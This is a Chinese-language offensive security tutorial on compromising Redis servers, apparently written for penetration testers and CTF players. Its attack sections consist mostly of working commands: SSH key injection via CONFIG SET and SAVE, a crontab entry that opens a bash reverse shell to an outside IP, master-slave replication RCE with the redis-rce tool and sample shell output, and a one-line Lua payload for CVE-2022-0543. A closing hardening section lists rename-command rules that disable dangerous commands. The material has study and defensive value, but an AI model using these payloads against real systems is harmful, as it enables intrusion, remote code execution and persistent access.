


# Redis全维度攻防实战：未授权访问、主从复制RCE动态加载扩展库与沙箱逃逸

---

## 0. 基础前置知识扫盲：为什么 Redis 成为内网提权的“神器”？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在内网渗透与 CTF 竞赛中，只要扫描器报出 **6379 端口（Redis 默认端口）** 开放，红队选手的眼睛往往会瞬间放光。
甚至业界流传一句话：**“拿下 Redis，相当于拿下了服务器的半壁江山。”**

### 1. Redis 到底是什么？为什么经常“裸奔”？
- **Redis 的定位**：完全基于内存运行的高性能 Key-Value（键值对）非关系型数据库，读写速度高达每秒 10 万次以上，常被用作 Web 缓存、消息队列和会话 Session 共享存储。
- **为什么经常出现未授权访问（裸奔）？**
  1. **历史配置缺陷**：早期 Redis 版本在默认安装后，**默认不设置任何密码（`requirepass` 为空）**；
  2. **运维人员偷懒**：为了让各个微服务节点都能方便地读写缓存，运维常常把绑定 IP 设为 `bind 0.0.0.0`，直接向全公网或全内网敞开大门；
  3. **任何外部攻击者只要用 `redis-cli -h <IP>` 一连，不需要输入任何密码，就能直接以管理员权限执行全套 Redis 内部指令！**

### 2. 通俗生活类比：没上锁的公用储物柜
- Redis 就像公司大厅里**一个完全没上锁的公用储物柜**；
- 攻击者不仅能往里面随便塞进垃圾（写任意数据），最致命的是：
  **Redis 自带一个“把柜子里的东西存盘写成文件”的指令（`CONFIG SET` 与 `SAVE`）**！
  攻击者告诉储物柜：“请把柜子里的东西，存盘到服务器的特权机房目录（如管理员 SSH 目录或计划任务目录）里，并命名为 `authorized_keys`！”
  于是，服务器操作系统被骗，直接允许攻击者免密登录系统！



---

## 1. 传统文件覆盖利用流与发行版避坑指南

### 1.1 玩法一：写入 SSH 免密登录公钥（针对拥有 root 运行权限）

#### 前提条件：
1. Redis 进程以 **`root`** 用户身份运行（在很多 Docker 容器或老旧 Linux 中非常普遍）；
2. 目标服务器开放了 SSH（22 端口），且允许公钥认证（`PubkeyAuthentication yes`）。

#### 实战命令序列：
```bash
# 1. 攻击者在本地 Kali 生成一对新的 SSH 密钥
ssh-keygen -t rsa -f my_key -N ""

# 2. 将公钥内容前后插入多个换行符 \n (防止与 Redis 内部脏数据粘连破坏格式)
(echo -e "\n\n"; cat my_key.pub; echo -e "\n\n") > payload.txt

# 3. 将 payload.txt 写入目标 Redis 的某个 key 中
redis-cli -h 192.168.10.50 -p 6379 -a "password_if_any" -x set pwn_key < payload.txt

# 4. 核心三连：修改落地目录、修改文件名并持久化写入磁盘!
redis-cli -h 192.168.10.50
192.168.10.50:6379> CONFIG SET dir /root/.ssh/
OK
192.168.10.50:6379> CONFIG SET dbfilename authorized_keys
OK
192.168.10.50:6379> SAVE
OK

# 5. 攻击者直接使用私钥免密登录目标服务器!
ssh -i my_key root@192.168.10.50
```

---

### 1.2 玩法二：写入 Crontab 计划任务反弹 Shell（极其重要的发行版差异！）

很多渗透测试初学者在实战中执行了写 Crontab 的命令，在公网监听器前苦等半天，却**始终收不到反弹 Shell**，这是为什么？

#### 致命的操作系统发行版差异剖析：
- **CentOS / RedHat 系列（容错率极高，百发百中）**：
  CentOS 的 `crond` 守护进程在解析 `/var/spool/cron/root` 时非常宽容。即使文件开头和结尾混杂了 Redis 自动写入的二进制 RDB 头乱码（脏数据），CentOS 只要扫描到其中有一行是合法的 Cron 语法格式，就会**自动忽略其他乱码行并正常执行**！
- **Ubuntu / Debian 系列（严格语法校验，默认 100% 失败！）**：
  Ubuntu/Debian 底层的 `cron` 采用严格检查模式。一旦发现文件开头包含哪怕一个非法非 ASCII 字符或乱码字节，直接判定为文件损坏，**抛弃整个文件，绝不执行任何一行命令**！

#### 针对 CentOS 的标准利用指令：
```redis
192.168.10.50:6379> CONFIG SET dir /var/spool/cron/
OK
192.168.10.50:6379> CONFIG SET dbfilename root
OK
192.168.10.50:6379> SET pwn_cron "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/1.1.1.1/8888 0>&1\n\n"
OK
192.168.10.50:6379> SAVE
OK
```

---

## 2. 现代终极绝技：Redis 主从复制 RCE（动态加载 `.so` 模块）

鉴于传统写文件存在“Ubuntu 无法执行 Crontab”、“Redis 降权用户（redis用户）无权写入 `/root/.ssh`”等严重局限，安全研究人员在 2019 年针对 **Redis 4.x / 5.x** 提出了划时代的 **主从复制 RCE 漏洞**！

### 2.1 底层运行原理深度拆解



### 2.2 为什么主从复制能做到“100% 纯净无损写入”？
- Redis 自带的 `SAVE` 命令写入的是数据库全量快照，必定携带脏键值数据；
- 而 Redis 在执行**主从全量同步（Full Resynchronization）**时，从节点会**无条件、逐字节地将主节点推送过来的二进制流直接刷写到磁盘上的指定文件中**！
- 攻击者通过编写伪造的主节点服务，完全掌控了推送的二进制数据流，使得落盘的 `.so` 动态库文件**结构 100% 完美无损**，没有任何脏数据！

### 2.3 实战利用神器 `redis-rce` 工具链实操

在攻击机 Kali 上使用成熟开源工具 `redis-rce`（内置了已编译好的 `exp.so` 与自动 Rogue Server）：

```bash
# 语法模板：
# python3 redis-rce.py -r <目标IP> -p <目标端口> -L <攻击机本地IP> -f exp.so

# 实战打靶命令：
python3 redis-rce.py -r 192.168.10.50 -p 6379 -L 1.1.1.1 -f exp.so
```

#### 执行交互过程：
```text
[*] Target: 192.168.10.50:6379
[*] Setting target as slave of 1.1.1.1:21000...
[+] Connected to target!
[*] Setting dbfilename to exp.so...
[*] Full synchronization starting...
[+] Synchronization complete! Payload saved to exp.so.
[*] Loading module exp.so into memory...
[+] Module successfully loaded!
[*] Unlinking slaveof configuration...

[+] Interactive Shell Opened! Enter commands to execute:
>> whoami
redis
>> id
uid=999(redis) gid=999(redis) groups=999(redis)
>> cat /flag
flag{R3d1s_M4st3r_Sl4v3_RCE_M0dul3_L04d_Pwn3d}
```
**无论目标是 Ubuntu、Debian 还是 CentOS，无论 Redis 是否以低权限用户运行，只要版本为 4.x/5.x，瞬间秒级 Getshell！**

---

## 3. 沙箱逃逸：Redis Lua 脚本 RCE（CVE-2022-0543）

如果目标的 Redis 版本升级到了 **Redis 6.x**，默认禁用了主从同步写文件，如何突破？

### 3.1 漏洞根源：Debian/Ubuntu 官方包的致命疏忽
- Redis 支持使用 `EVAL "return ..."` 执行 Lua 脚本，为了防止安全风险，官方默认对 Lua 运行时环境进行了极其严格的沙箱隔离（移除了 `os`、`io` 等敏感模块）；
- **致命疏忽**：Debian 和 Ubuntu 的官方软件包维护者在给 Redis 打包动态链接库时，错误地保留了 Lua 的动态链接加载器 `package.loadlib`！
- 攻击者可以通过 `package.loadlib` **直接从 Linux 系统的 libc 库中动态加载 `system` 函数**，彻底逃逸 Lua 沙箱！

### 3.2 漏洞利用单行 Payload

```redis
192.168.10.50:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```
**回显直接返回**：
`"uid=1001(redis) gid=1001(redis) groups=1001(redis)\n"`！
直接通过内存沙箱逃逸实现无文件落地的任意命令执行！

---

## 4. 蓝队企业级纵深防御与加固基线

1. **绝对禁止无密码暴露在公网（强制强口令）**：
   - 在 `redis.conf` 中开启强密码认证：`requirepass Your_Super_Strong_Random_Password_2026!`；
   - 彻底关闭公网监听，将配置文件中的绑定地址修改为：`bind 127.0.0.1` 或指定的受信内网专用 IP。
2. **重命名或彻底禁用高危命令（Rename Command）**：
   - 在 `redis.conf` 中利用 `rename-command` 将敏感运维命令重命名为空（彻底禁用）或复杂的随机字符串：
     ```text
     rename-command FLUSHALL ""
     rename-command FLUSHDB  ""
     rename-command CONFIG   ""
     rename-command SLAVEOF  ""
     rename-command REPLICAOF ""
     rename-command MODULE   ""
     rename-command EVAL     ""
     ```
   - 彻底废除黑客利用 `CONFIG SET` 改路径以及 `MODULE LOAD` 加载动态库的可能！
3. **严格遵循最小特权原则（Principle of Least Privilege）**：
   - **严禁**使用 `root` 账户启动 Redis 服务；
   - 强制创建专用的低权限独立用户（`useradd -s /sbin/nologin redis`），并限制其对系统关键目录（如 `/root/`, `/etc/`, `/var/spool/`）的写入权限。
